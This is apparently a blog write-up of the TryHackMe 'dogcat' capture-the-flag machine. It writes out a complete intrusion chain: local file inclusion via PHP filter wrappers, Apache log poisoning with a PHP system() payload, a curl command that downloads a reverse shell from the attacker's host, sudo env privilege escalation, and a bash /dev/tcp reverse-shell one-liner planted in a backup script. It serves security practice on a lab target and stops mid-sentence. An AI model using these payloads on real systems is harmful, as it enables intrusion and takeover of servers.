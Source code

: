 ```yaml
---
date: 2020-05-17
layout: post
title: "dogcat"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/dogcat/dogcat.png
optimized_image:
category: Tryhackme
tags: tryhackme lfi
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/dogcat">Link</a> to the machine on Tryhackme.

Starting with the nmap scan.
```bash
nmap -T4 -p- -A 10.10.110.141
```
```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-18 22:13 IST
Nmap scan report for 10.10.184.233
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Not much of ports are open.Main target now port 80.

Running gobuster
```bash
gobuster dir -u http://10.10.110.141 -w wordlist
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/server-status (Status: 403)
/dog.php (Status: 200)
/dogs (Status: 301)
````
Requesting flag.php gives a blank page.
Clicking on any of the two buttons provided on home page of the website a image is accessed using the following url
```url
http://10.10.110.141/?view=dog[or cat] 
```
Tried local file inclusion through the view parameter.
```url
http://10.10.110.141/?view=../../../../../../../../../../etc/passwd
```

This failed as the server is attaching a .php at the end of the string provided in view.Moreover it also checks for dog or cat word in the string.

Used PHP Wrappers to get the code in flag.php.
```url
http://10.10.110.141/?view=php://filter/convert.base64-encode|read=dog/resource=flag
```
Here the filter php wrapper is used as we can use it to chain multiple filters.
The wrapper above asks the server to get flag.php(.php is appended automatically) convert it to base64(beacuse if it will give the code directly then code will get executed and we will get same page as requesting flag.php).Read filter does nothing here except letting dog or cat word in the string.

Accessing the above url we get a base64 encoded string which on decryption gives the code of flag.php
![placeholder](/writeup/assets/img/dogcat/flag1.php "flag1")

Through the same method index.php can be read.This tells that appending of .php can be stopped by using a *ext* parameter in url.
```php
#index.php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Now trying to get rce through log poisoning.
First we access any file on the server with User-Agent Header containing our malicious code.
This can be done via burpsuite or curl.
Using the following in user agent
```bash
**Payload="<?PHP echo system($_GET['y'])?>"**
```
![placeholder](/writeup/assets/img/dogcat/burp.png "burp")

Now accessing the access.log file on the system which logs all the files being requested with the user-agent which is accessing.
So this way when access.log is fetched by the server,the php code feeded in through user-agent gets executed.

So now any code can be executed thorough the y parameter in url

```url
http://10.10.110.141/view=cats/../../../../../../../../../../var/log/apache2/access.log&ext=&y=[command] 
```

If **whoami** is passed in y then following response is recieved
![placeholder](/writeup/assets/img/dogcat/rce.png "rce")

Better shell can be acquired by uploading any php reverse shell thorugh the y parameter.

Since many commands like wget python are not present on the machine;curl can be used to upload the reverse shell.
```url
http://10.10.110.141/?view=dog/../../../../../../../../../../../../../var/log/apache2/access.log&ext=&y=curl%20http://10.9.12.192/phpshell.php%20-o%20shell.php
```
The shell used here is pentestmonkney reverse shell.

Now accessing the shell.php gives a reverse shell.
![placeholder](/writeup/assets/img/dogcat/shell.png "shell")

Second flag is present in /var/www.

**sudo -l** shows
![placeholder](/writeup/assets/img/dogcat/sudo.png "sudo")

Time for GTFObins.
Got the command from GTFObins that will give a root shell through env command.
**sudo env /bin/sh**

Got root shell and the third flag(Inside /root directory).

Running the hostname command gives a non-meaningfull string which tells that we may be still inside a container rather that the machine itself.

Enumerating through the machine , got a backup.sh file inside /opt/backup. This seems to be a script main host machine is using to create bacckup.So maybe it is runnning at some interval of time.
Edited the script to get a reverse shell.
Put a one liner reverse shell in the script
```bash
echo "#!/bin/bash" > backup.sh
echo "bash -c 'bash -i >& /dev/tcp/10.9.12.192/7777 0>&1'" >> backup.sh
```

This gave a shell on the host machine.
![placeholder](/writeup/assets/img/dogcat/host.png "host")
Found fourth flag(Inside /root/)


Got the 
